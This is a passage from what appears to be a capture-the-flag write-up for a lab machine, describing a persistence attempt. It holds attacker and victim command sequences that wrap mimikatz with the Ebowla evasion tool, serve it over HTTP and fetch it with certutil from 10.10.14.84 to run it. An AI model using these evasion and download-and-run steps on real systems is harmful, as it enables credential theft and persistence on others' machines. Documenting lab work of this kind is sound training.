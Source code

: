 > **Attacker Machine**:

```bash
# 4th Persistence Method
python3 ebowla.py
python2 ebowla.py
pip2 install configobj
python2 ebowla.py
ls -l ./output
./build_x64_go.sh -h
./build_x64_go.sh ./output/go_symmetric_mimikatz.exe.go malicious_mimikatz.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/malicious_mimikatz.exe
.\malicious_mimikatz.exe                  # :(
```

> **Attacker Machine**:

```bash
python2 ebowla.py mimikatz.exe genetic.config
./build_x64_go.sh ./output/go_symmetric_mimikatz.exe.go malicious_mimikatz.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.84/malicious_mimikatz.exe
certutil.exe -hashfile '.\malicious_mimikatz.exe' MD5
```

> **Attacker Machine**:

```bash
md5sum malicious_mimikatz.exe
```

> **Victime Machine**:

```cmd
malicious_mimikatz.exe                    # :(
```

<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blue_writeup/Blue_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
